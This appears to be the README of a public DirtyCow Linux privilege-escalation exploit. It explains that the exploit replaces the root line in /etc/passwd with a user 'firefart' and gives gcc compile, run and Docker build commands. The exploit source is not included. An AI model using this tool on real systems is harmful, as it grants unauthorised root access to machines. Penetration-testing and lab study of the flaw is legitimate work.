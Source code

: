 # DirtyCow and Cowherd

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
The user will be prompted for the new password when the binary is run.
The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
After running the exploit you should be able to login with the newly created user.

To use this exploit modify the user values according to your needs.

The default user being created is `firefart`.

Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
  https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c

Compile with:

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```bash
./dirty
```

or

```bash
 ./dirty my-new-password
 ```
Afterwards, you can either `su firefart` or `ssh firefart@...`

**DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!**

```bash
mv /tmp/passwd.bak /etc/passwd
```

Exploit adopted by Christian "FireFart" Mehlmauer

https://firefart.at

## Compile for Debian Squeeze 32
* Use a docker target os to compile the exploit 
```
docker run --platform linux/386 -it -v $(pwd):/tmp debian/eol:squeeze
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/tmp# head -n 20 dirty.c
...
root@07ccd56551fe:/tmp# head -n 20 cowherd.c
...
```
* Follow the compilation instructions



